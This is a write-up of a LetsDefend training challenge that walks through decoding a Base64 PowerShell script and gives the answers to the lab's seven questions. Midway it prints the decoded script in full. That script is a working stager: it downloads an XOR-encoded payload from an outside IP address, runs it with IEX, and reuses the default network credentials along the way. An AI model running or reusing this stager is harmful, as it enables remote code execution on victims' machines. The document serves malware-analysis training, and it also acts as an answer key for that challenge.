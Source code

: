 
--------------
**Challenge Description**

You've come across a puzzling Base64 script, seemingly laced with malicious intent. Your mission, should you choose to accept it, is to dissect and analyze this script, unveiling its true nature and potential risks. Dive into the code and reveal its secrets to safeguard our digital realm. Good luck on this daring quest!  
**Tool Needed:** Cyberchef  
**File Location:** C:\Users\LetsDefend\Desktop\script.txt
This challenge prepared by [ZaadoOfc](https://www.linkedin.com/in/zaid-shah-05527a22b/)  
**Credit:** csnp.org

----------------------------------
**Questions**

What encoding is the malicious script using?

What parameter in the powershell script makes it so that the powershell window is hidden when executed?

What parameter in the Powershell script prevents the user from closing the process?

What line of code allows the script to interact with websites and retrieve information from them?

What is the user agent string that is being spoofed in the malicious script?

What line of code is used to set the proxy credentials for authentication in the script?

When the malicious script is executed, what is the URL that the script contacts to download the malicious payload?

----------------------------------

When you click Lab Environment Connect button on LetsDefend we see a Windows 10 VM and in the desktop this is our PowerShell Script.


![[Pasted image 20240125103221.png]]

So let's answer the questions

1 - What encoding is the malicious script using?
**Answer: `Base64`**

You can use CyberChef Magic Extension or different encoding identifiers to learn which encoding applied to a string

2- What parameter in the powershell script makes it so that the powershell window is hidden when executed?
**Answer: `-W Hidden`**

-W or -Windows Style is an argument for PowerShell. -W Hidden used for -Windows Style Hidden argument.

3- What parameter in the Powershell script prevents the user from closing the process?
**Answer: `-NonI`**

NonI parameter means Non Interactive, This parameter disables the ability for commands to attempt to prompt. So user can't interrupt the process


After this step we should decode the string. You can do it with terminal or online tools. I preferred to use online decoders. After decoding string here I get the clear PowerShell Script

`$WC=New-ObjEcT SySTeM.NET.WebCliENt;$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';$WC.HeADeRS.ADd('User-Agent',$u);$Wc.ProxY = [System.NeT.WEBReQUEst]::DEFAuLtWebProXy;$wc.PROxY.CrEdenTialS = [SysTem.NEt.CRedeNTIAlCAcHE]::DeFAULTNetWOrKCredENTiAls;$K='IM-S&fA9Xu{[)|wdWJhC+!N~vq_12Lty';$i=0;[CHaR[]]$B=([cHaR[]]($wc.DOwNLOaDStriNg("http://98.103.103.170:7443/index.asp")))|%{$_-BXoR$K[$I++%$k.LEnGTH]};IEX ($B-jOIn'')`


4- What line of code allows the script to interact with websites and retrieve information from them?
**Answer: `$WC=New-Object System.Net.WebClient`**

WebClient class provides common methods for sending or receiving data from internet

5- What is the user agent string that is being spoofed in the malicious script?
**Answer: `Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko`**

The user agent string contains information that a web browser uses to identify itself to a server

6- What line of code is used to set the proxy credentials for authentication in the script?
**Answer:` $wc.PROxY.CrEdenTialS = [SysTem.NEt.CRedeNTIAlCAcHE]::DeFAULTNetWOrKCredENTiAls`** 

Sets the proxy credentials to the default network credentials.

7- When the malicious script is executed, what is the URL that the script contacts to download the malicious payload?
**Answer: `http://98.103.103.170:7443/index.asp`**

The URL in Web Client Download String Command. `$wc.DOwNLOaDStriNg("http://98.103.103.170:7443/index.asp"`
